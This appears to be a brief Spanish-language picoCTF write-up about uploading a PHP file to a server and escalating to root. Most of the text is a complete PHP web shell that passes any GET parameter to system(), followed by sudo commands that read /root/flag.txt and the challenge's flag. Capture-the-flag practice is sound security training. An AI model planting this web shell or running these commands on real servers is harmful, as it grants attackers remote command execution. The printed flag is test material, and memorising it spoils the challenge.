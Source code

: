 Vemos que el servidor corre php, y cargamos un payload que tenia de antes 
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```


```bash
sudo -l
sudo ls /root
sudo cat /root/flag.txt
```
```flag
picoCTF{wh47_c4n_u_d0_wPHP_712a9451}
```